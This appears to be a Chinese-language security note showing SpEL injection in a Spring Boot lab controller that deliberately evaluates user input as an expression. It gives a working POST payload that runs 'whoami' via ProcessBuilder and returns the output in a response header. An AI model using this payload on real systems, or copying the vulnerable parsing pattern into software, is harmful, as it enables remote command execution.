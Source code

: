 ## ResponseHeader

这种方法才称得上是通用回显  
这种方法需要有一个方法可以 addHeader，可是 springboot 并不自带这个方法。因此获取到 Response 有些许困难，需要注册一个 response 进上下文

```java
@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload,HttpServletResponse response){
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("response",response);
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue(context);
    }
}
```

```php
POST /spel HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 180

payload=#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())
```

![image.png](assets/1698895942-c3caaced934dafdd549c3950f2423222.png)  
这样就可以把命令执行的结果外带出来了。这种方法是比较轻便的。还是围绕着如何获取 response 这个点。stucts2 有 util 可以直接添加 response，所以可以直接外带。

